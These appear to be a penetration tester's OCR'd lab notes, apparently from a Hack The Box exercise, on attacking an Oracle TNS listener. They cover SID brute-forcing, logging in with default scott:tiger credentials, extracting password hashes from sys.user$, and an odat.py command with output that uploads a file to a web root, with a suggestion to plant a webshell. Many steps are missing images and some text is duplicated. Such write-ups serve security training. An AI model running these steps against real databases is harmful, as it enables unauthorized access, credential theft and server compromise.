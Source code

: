 > [!caution] This page contained a drawing which was not converted.   

Install tools:

![Exported image](Exported%20image%2020240712140406-0.png)  

Step 1: Enumerate
 ![Exported image](Exported%20image%2020240712140406-1.png) ![Exported image](Exported%20image%2020240712140406-2.png)  

We're looking for SIDs, when the client specifies which database instance it wants to connect to.
 
Step 2: Brute-force SIDs

![Exported image](Exported%20image%2020240712140406-3.png)

OR

![Exported image](Exported%20image%2020240712140406-4.png)

FOUND: scott:tiger
 
Step 3: Login with creds

![Exported image](Exported%20image%2020240712140406-5.png)

If you come across the following error sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory, please execute the below, taken from [here](https://stackoverflow.com/questions/27717312/sqlplus-error-while-loading-shared-libraries-libsqlplus-so-cannot-open-shared).  

```
burray@htb
[/htb]
$
sudo sh 
-c 
"echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf"
;
sudo 
ldconfig







burray@htb
[/htb]
$
echo
"Oracle File Upload Test"
>
testing.txtburray@htb
[/htb]
$
./odat.py utlfile -s 
10.129
.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt

[1] (10.129.204.235:1521): Put the ./testing.txt local file in the C:\inetpub\wwwroot folder like testing.txt on the 10.129.204.235 server                                                                                                  
￼
[+] The ./testing.txt file was created on the C:\inetpub\wwwroot directory on the 10.129.204.235 server like the testing.txt file

```

[/htb]$sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig  
 [SQLplus commands](https://docs.oracle.com/cd/E11882_01/server.112/e41085/sqlqraa001.htm#SQLQR985) 
 
Step 4: Interaction

![Exported image](Exported%20image%2020240712140406-6.png)  
![Exported image](Exported%20image%2020240712140406-7.png)

Scott is not an admin but we might be able to use his account to log in as the System Database Admin (sysdba).
 
Step 5: Database Enumeration

![Exported image](Exported%20image%2020240712140406-8.png)  

XE found in nmap scan

Extract password hashes in sys.user$ for cracking offline

![Exported image](Exported%20image%2020240712140406-9.png)  

**Another option is uploading a webshell. WINDOWS C:\inetpub\wwwroot LINUX /var/www/html**
 
burray@htb[/htb]$echo"Oracle File Upload Test">testing.txtburray@htb[/htb]$./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
 
[1] (10.129.204.235:1521): Put the ./testing.txt local file in the C:\inetpub\wwwroot folder like testing.txt on the 10.129.204.235 server ￼[+] The ./testing.txt file was created on the C:\inetpub\wwwroot directory on the 10.129.204.235 server like the testing.txt file
 
**Then use curl -X GET** **http://<IP>/testing.txt**